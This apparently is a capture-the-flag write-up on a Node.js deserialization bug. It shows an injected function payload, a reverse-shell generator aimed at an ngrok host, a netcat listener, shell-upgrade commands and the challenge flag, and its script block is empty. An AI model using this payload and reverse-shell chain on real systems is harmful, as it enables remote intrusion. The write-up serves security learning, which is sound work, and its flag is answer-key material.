


Based on this paper [node js deserialization](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf), I reliazed i can inject something from this kind:
```js
{"rce":"_$$ND_FUNC$$_function (){
  some-js-code
}()"
}
```

And then, it'll execute the js-code.
(Of course we need to send it base64-encoded...)

I'm using the reverse shell from here [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py), although I've modified it by a bit, this is our script:
```py

```

We can run it with our ngrok tunnel, in my case:
```bash
python3 nodejsshell.py 2.tcp.eu.ngrok.io 15620
```

This is the ngrok tunnel I set up, using this command:
```bash
ngrok tcp 777
```



And then just send the b64-encoded string, don't forget to set up a listening port, in my case, in port 777:
```bash
nc -nvlp 777
```

here I'm sending the payload:


And this is the shell I got.


I've used those commands from hack-tools chrome extension, to make the shell better looking:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 38 columns 116
```

**Flag:** **_`Y3pS3r0d3c0mp4nY1sB4d!`_**
